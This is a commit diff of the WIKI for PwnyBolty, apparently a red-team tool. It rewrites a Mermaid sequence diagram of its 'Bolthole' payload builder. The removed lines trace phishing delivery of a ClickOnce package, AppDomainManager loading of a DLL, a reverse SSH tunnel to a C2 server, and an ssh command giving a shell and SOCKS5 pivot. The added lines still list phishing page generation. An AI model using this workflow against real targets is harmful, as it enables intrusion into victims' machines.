

One commit to mr-rizwan-syed/PwnyBolty changed the fifth of 7 diagrams in WIKI.md. Above: the diagram before and after it, drawn with Mermaid (neutral theme). The commit also changed other lines of this file, not shown here.

Commit message:
Rewrite WIKI: clearer structure, consistent naming, Key Terms section

````diff
--- a/WIKI.md
+++ b/WIKI.md
@@ -75,34 +129,15 @@
 ```mermaid
 sequenceDiagram
     actor Operator
+    participant UI as PwnyBolty UI
     participant API as FastAPI
-    participant Builder as BoltholeBuilder
-    participant Caddy as Caddy/Static
-    participant C2 as C2 Server
-    participant Target as Target Machine
+    participant Builder as Bolthole Builder
 
-    Operator->>API: POST /api/bolthole/c2 {ssh_host, ssh_user, ports}
-    API-->>Operator: Global outbound keypair generated and stored
+    Operator->>UI: Submit Bolthole build request
+    UI->>API: POST /api/bolthole-build
+    API->>Builder: Start background build
 
-    Operator->>API: POST /api/bolthole-build
-    API-->>Operator: { buildid }
-    API->>Builder: Spawn BackgroundTask
+    Note over Builder: 1. Generate per-build ECDSA-256 operator keypair<br/>2. Generate per-build RSA-2048 boltd host key<br/>3. Embed global outbound key as {ssh_user}_key<br/>4. Substitute all values into Program.cs<br/>   (host, user, ports, tunnel range, delays, filenames)<br/>5. Compile Bolthole DLL with msbuild<br/>6. Bundle DLL + BoltFiles into ClickOnce package<br/>7. Generate phishing page and c2_setup.sh
 
-    Note over Builder: Generate per-build ECDSA operator keypair<br/>Generate per-build RSA-2048 boltd host key<br/>Embed global outbound key as user_key<br/>msbuild compile Bolthole.dll<br/>Package BoltFiles: boltd · boltcon · libcrypto<br/>authorized_keys · boltd-config · user_key<br/>Generate phish.html + c2_setup.sh
-
-    Builder-->>Caddy: build/id/ ready
-    Caddy-->>Operator: ZIP · operator_key · phish.html · c2_setup.sh
-
-    Operator->>C2: Run c2_setup.sh
-    Note over C2: Creates SSH user (nologin)<br/>Adds outbound pubkey to authorized_keys<br/>Enables TCP forwarding + GatewayPorts<br/>Opens firewall ports (443, 80, 22, ...)
-
-    Operator->>Target: Deliver phishing link (phish.html)
-    Target->>Caddy: GET payload.application
-    Caddy-->>Target: ClickOnce manifest + .deploy files
-
-    Note over Target: Microsoft-signed EXE launches<br/>AppDomainManager loads Bolthole.dll<br/>Extract BoltFiles · start boltd · start boltcon
-
-    Target->>C2: Reverse SSH tunnel (ports 443 → 80 → 22 → ...)
-    Operator->>C2: ssh -i operator_key -p tunnel_port user@c2
-    C2-->>Operator: Shell on Target + SOCKS5 pivot
+    Builder-->>Operator: payload.zip · operator_key · c2_setup.sh
 ```
````
